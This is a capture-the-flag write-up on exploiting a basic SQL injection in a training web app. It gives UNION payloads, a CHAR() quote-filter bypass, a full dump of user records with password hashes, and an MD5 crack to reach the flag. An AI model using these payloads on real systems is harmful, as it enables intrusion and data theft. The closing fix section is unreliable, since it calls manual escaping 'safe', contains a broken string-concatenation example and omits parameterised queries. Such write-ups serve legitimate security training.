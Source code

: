 # Breach: SQL injection basic


<br>

### >> [Flag file](../flag) <<

<br>


## Explanation:


#### Step 1:

- Go to the members page.

> You'll notice, by entering random data, that the form is vulnerable to SQL injection.

> You guess that the SQL query is something like this:
> ```sql
> SELECT first_name_column, surname_column FROM some_user_table WHERE id_column={the payload you enter};
> ```

> 1. You know that the query is returning a 2 columns result.
> 2. You know that the verification is very poorly protected.

> Conclusion, we can explore the database !


#### Step 2:

Let's explore the database !

> We want to get only the wanted/interesting info, <br>
> So we'll search for a non-existing user id (for exemple `999`) <br>
> And we'll use the UNION operator to add a second query to the first one. <br>

> With the payload `999 UNION ...`, the query will look like this:
> ```sql
> SELECT first_name_column, surname_column FROM some_user_table WHERE id_column=999 UNION ...;
> ```

> There is a special part of the db called `INFORMATION_SCHEMA` that contains tables listing all the information about the database. <br>
> For this exercise, we'll use `INFORMATION_SCHEMA.TABLES` and `INFORMATION_SCHEMA.COLUMNS`, but there are many more interesting tables in `INFORMATION_SCHEMA` !

- List all the tables in the database:
```sql
999 UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES
```


#### Step 3:

The table `users` looks interesting, let's see what's inside...

> The quotes (`'` and `"`) are filtered, but we can use the `CHAR()` function to bypass this filter.

- Translate `users` and `Member_Sql_Injection` to their ASCII values:
```sql
CHAR(117, 115, 101, 114, 115)
CHAR(77, 101, 109, 98, 101, 114, 95, 83, 113, 108, 95, 73, 110, 106, 101, 99, 116, 105, 111, 110)
```

- List all the columns in the `users` table:
```sql
999 UNION SELECT COLUMN_NAME, COLUMN_TYPE FROM INFORMATION_SCHEMA.COLUMNS
WHERE TABLE_SCHEMA=CHAR(77, 101, 109, 98, 101, 114, 95, 83, 113, 108, 95, 73, 110, 106, 101, 99, 116, 105, 111, 110)
AND TABLE_NAME=CHAR(117, 115, 101, 114, 115)
```

> It gives us the culumns:
> | COLUMN_NAME  | COLUMN_TYPE  |
> | -----------: | :----------- |
> | user_id      | int(11)      |
> | first_name   | varchar(255) |
> | last_name    | varchar(255) |
> | town         | varchar(255) |
> | country      | varchar(255) |
> | planet       | varchar(255) |
> | Commentaire  | varchar(255) |
> | countersign  | varchar(255) |


#### Step 4:

Now we can get the flag from the `users` table.

- List every users:
```sql
999 UNION SELECT user_id, first_name FROM users
```

> Oh ! The user with the id `5` is named `Flag`, let's see if we can get the flag from his account.

- Get the flag:
```sql
999 UNION SELECT Commentaire, countersign FROM users WHERE user_id=5
```

> We get:
> - Decrypt this password -> then lower all the char. Sh256 on it and it's good !
> - 5ff9d0165b4f92b14994e5c685cdce28

--- 

Another way:

- We can list everything:
```sql
999 UNION SELECT user_id, first_name FROM users
UNION SELECT user_id, last_name FROM users
UNION SELECT user_id, town FROM users
UNION SELECT user_id, country FROM users
UNION SELECT user_id, planet FROM users
UNION SELECT user_id, Commentaire FROM users
UNION SELECT user_id, countersign FROM users
```

> It gives us:
> | user_id | first_name | last_name | town      | country  | planet | Commentaire                                                                   | countersign                      |
> | :-----: | :--------- | :-------- | :-------- | :------- | :----- | :---------------------------------------------------------------------------- | :------------------------------- |
> | 1       | one        | me        | Paris     | France   | EARTH  | Je pense, donc je suis                                                        | 2b3366bcfd44f540e630d4dc2b9b06d9 |
> | 2       | two        | me        | Helsinki  | Finlande | Earth  | Aamu on iltaa viisaampi.                                                      | 60e9032c586fb422e2c16dee6286cf10 |
> | 3       | three      | me        | Dublin    | Irlande  | Earth  | Dublin is a city of stories and secrets.                                      | e083b24a01c483437bcf4a9eea7c1b4d |
> | 5       | Flag       | GetThe    | 42        |          |        | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28 |


#### Step 5:

- Decrypt the password (md5 lookup): `5ff9d0165b4f92b14994e5c685cdce28` -> `FortyTwo`

- Lower all the characters: `FortyTwo` -> `fortytwo`

- Sh256 on it: `fortytwo` -> `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`


<br>


## How to fix it:

- Use a code interface instead of SQL querries.<br>
  For exemple, with django, the interaction with the database are object-based.<br>
  It just means that instead of :
  ```py
  sql_manager.querry("SELECT * FROM Users WHERE id=" + var)  # not safe
  ```
  We now have :
  ```py
  Users.get(id=var)  # almost unbreakable
  ```
  It's injection-free and with some conditions, absolutely unbreakable.

<br>

- Or at least, Check the input before applying the querry.<br>
  Example :<br>
  ```py
  try:
      safe_var = int(var)
      if 0 <= safe_var < 1000:
          sql_manager.querry("SELECT * FROM Users WHERE id=" + safe_var)  # safe
      else:
          pass  # out of bounds
  except:
      pass  # not a number (may be an injection tentative)
  ```
  And in case the variable is a string, keep it in simple quotes,<br>
  escaping the backslashes and the simple quotes :<br>
  ```py
  safe_var = var.replace("\\", "\\\\").replace("'", "\\'")
  sql_manager.querry("SELECT * FROM Users WHERE name='" + safe_var + "'")
  ```

<br>

- And anyway, Keep everything up-to-date !


---

[[Back to main page](/#darkly)]
